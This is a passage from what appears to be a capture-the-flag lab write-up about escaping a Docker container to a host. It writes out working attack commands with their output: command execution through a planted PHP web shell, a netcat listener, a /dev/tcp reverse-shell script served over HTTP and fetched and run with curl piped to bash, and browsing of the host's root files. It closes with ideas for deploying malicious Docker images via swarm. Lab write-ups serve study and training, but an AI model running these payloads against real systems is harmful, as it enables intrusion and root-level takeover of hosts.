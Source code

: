 Finally, we can use this exposed port to access our malicious PHP server and get a shell inside the container, with the target's filesystem mounted. 

```bash
curl http://10.129.230.94:1337/index.php?0=id

uid=0(root) gid=0(root) groups=0(root)
```

Shell incoming:

```bash
nc -nlvp 4444
```

```bash
cat > boom.sh<<EOF
#!/bin/sh
/bin/sh -i >& /dev/tcp/10.10.14.59/4444 0>&1
EOF
python3 -m http.server 80
```

```bash
curl http://10.129.230.94:1337/index.php?0=curl+10.10.14.59/boom.sh\|bash
```

```bash
nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [172.18.0.8] 38604
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

We got a shell as `root`. The host filesystem is mounted in `/mnt`.

```bash
# cd /mnt
# ls -al root 
total 56
drwx------  6 root root  4096 Apr 30 16:31 .
drwxr-xr-x 18 root root  4096 Apr 17 08:46 ..
lrwxrwxrwx  1 root root     9 Apr 25 14:58 .bash_history -> /dev/null
-rw-r--r--  1 root root   571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root  4096 Apr 24 16:55 .cache
drwx------  3 root root  4096 Apr 25 13:09 .docker
-rw-r--r--  1 root root   161 Jul  9  2019 .profile
drwxr-xr-x  2 root root  4096 Apr 25 11:57 .vim
-rw-------  1 root root 18003 Apr 30 16:31 .viminfo
drwxr-xr-x  4 root root  4096 Apr 25 14:44 docker
-rw-r-----  1 root root    33 Apr 25 14:58 root.txt
```

Alternative methods of exploitation may include leaving the swarm on the target system (this won't break the services, I tested it) and creating a swarm on our attacking machine, joining it from the target system as a worker. One can then also deploy malicious images, either by forwarding a local registry or using the one on the target. 
